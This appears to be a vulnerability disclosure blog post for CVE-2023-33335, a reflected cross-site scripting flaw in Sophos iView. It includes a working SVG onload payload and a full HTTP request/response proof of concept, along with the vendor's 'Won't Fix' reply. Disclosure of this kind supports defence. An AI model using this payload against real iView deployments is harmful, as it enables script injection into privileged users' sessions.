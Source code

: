 ```yaml
---
layout: post
title:  "Reflected Cross-Site scripting in Sophos iView"
date:   2023-05-03 19:51:02 +0700 
categories: [cve]
---
```


Vendor: Sophos

Product: Sophos iView (The EOL was December 31st 2020)

#### Product description:

Reflected XSS in the privileged user area, where i was able to set parameter 'json->"grpname"'s value to 'ww;</script>/</script/>/<svg/onload=alert('Sophos') width=100//>'

That successfully embedded a script in the response, which was executed when the page loads in the user's browser.

* CVE ID: CVE-2023-33335
* CWE ID: CWE-79

#### #Proof of Concept

Reflected cross-site scripting (XSS) vulnerability was discovered in the product.

A cross-site scripting vulnerability was identified.

It was possible to inject malicious code, I've successfully embedded a script in the response, which allowed me to execute it when the page loaded in the browser.

The following Proof of Concept (PoC) demonstrates the attack as well as displaying evidence of the script payload being returned in the response. 

#### PoC:
{% highlight ruby %}
POST /iview
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko
Referer: https://10.0.0.112/webpages/index.jsp?empty=1_1&watermarkmsg=0
Cookie: JSESSIONID=189B80C28A886E98BBD17B7AEFF1B63C
Connection: Keep-Alive
Host: 10.0.0.112
X-Requested-With: XMLHttpRequest
Content-Length: 170
Cache-Control: no-cache
Accept: text/plain, */*; q=0.01
Accept-Language: en-US
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

mode=28&deviceprofile=123&json={"selecteddevices":"1","grpname":"ww;</script>/</script/>/<svg/onload=alert('Sophos') width=100//>","description":"www"}&__RequestType=ajax

HTTP/1.1 200 200
Connection: Keep-Alive
Server: xxxx
Content-Length: 173
X-Frame-Options: SAMEORIGIN
Keep-Alive: timeout=5, max=100
Cache-Control: max-age=2592000
Strict-Transport-Security: max-age=31536000; includeSubDomains
Date: Thu, 09 Jan 2020 14:54:39 GMT
Expires: Sat, 08 Feb 2020 14:54:39 GMT

{"reurl":"managedevicegroup.html?action=71020","message":"Device Group ww;<\/script>/<\/script/>/<svg/onload=alert('Sophos') width=100//> is already exists.","status":"500"}
{% endhighlight %}

![Java Script executed when the page loads in the user's browser](/static/img/sophos-iview.png)

Reply from Sophos via Bugcrowd:

"We are divesting the Sophos iView product, meaning that this particular vulnerability is accepted business risk. I will close this issue as Won't Fix"

#### References:
1. https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
2. https://www.firewalls.com/pub/media/wysiwyg/datasheets/Sophos/iView.pdf
3. https://vimeo.com/107872566
4. https://docs.sophos.com/nsg/sophos-iview/v03012/Help/en-us/webhelp/onlinehelp/index.html#page/onlinehelp/AccessDevice.html
